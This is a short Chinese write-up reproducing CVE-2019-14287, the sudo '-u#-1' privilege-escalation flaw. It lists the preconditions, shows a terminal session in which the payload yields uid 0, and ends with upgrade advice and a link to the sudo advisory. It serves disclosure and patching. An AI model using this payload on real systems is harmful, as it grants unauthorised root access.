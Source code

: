 # [漏洞复现]CVE-2019-14287 sudo提权漏洞
### 漏洞详情
2019年10月14日，CVE官方发布了CVE-2019-14287的漏洞预警。通过特定payload，用户可提升至root权限。

**利用前提**
1. sudo -v < 1.8.28
2. 知道当前用户的密码
3. 当前用户存在于sudo权限列表
### 漏洞复现

```shell
mark@mark-Pc:~$ id
uid=1000(mark) gid=1000(mark) 组=1000(mark),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
mark@mark-Pc:~$ sudo -u#-1 id
[sudo] mark 的密码： 
uid=0(root) gid=1000(mark) 组=1000(mark)
```
### 修复建议
1. 升级sudo到1.8.28版本
2. 做好sudo用户列表管理

**参考**

https://www.sudo.ws/alerts/minus_1_uid.html